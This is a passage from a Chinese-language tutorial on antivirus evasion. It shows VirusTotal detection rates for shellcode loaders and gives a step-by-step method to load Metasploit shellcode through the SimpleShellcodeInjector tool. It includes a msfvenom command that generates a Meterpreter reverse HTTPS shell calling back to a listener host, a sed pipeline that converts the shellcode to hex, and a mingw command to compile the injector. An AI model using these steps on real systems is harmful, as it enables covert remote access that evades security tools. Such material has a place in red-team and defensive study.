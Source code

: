 virustotal.com上`shellcode_launcher.exe`查杀率为3/71

![3b0ea28d6950b28651dcdb11bf709d23](images/2020.03-bypass-03/44.png)

## 3.2 使用SSI加载(VT免杀率6/69)

这里需要使用的加载器`https://github.com/DimopoulosElias/SimpleShellcodeInjector`

先用msfvenom生成基于c语言的shellcode
```
msfvenom -p windows/meterpreter/reverse_https LHOST=10.211.55.2 LPORT=3333 -f c -o msf.txt
```

然后执行下面命令,会得到一串16进制字符串
```
cat msf.txt|grep -v unsigned|sed "s/\"\\\x//g"|sed "s/\\\x//g"|sed "s/\"//g"|sed ':a;N;$!ba;s/\n//g'|sed "s/;//g"
```
![593c0e6151c1563bf3f541a1b47cfdae](images/2020.03-bypass-03/45.png)

然后在`SimpleShellcodeInjector`文件中，找到文件`SimpleShellcodeInjector.c`。使用命令`i686-w64-mingw32-gcc SimpleShellcodeInjector.c -o ssi.exe`编译生成ssi.exe。
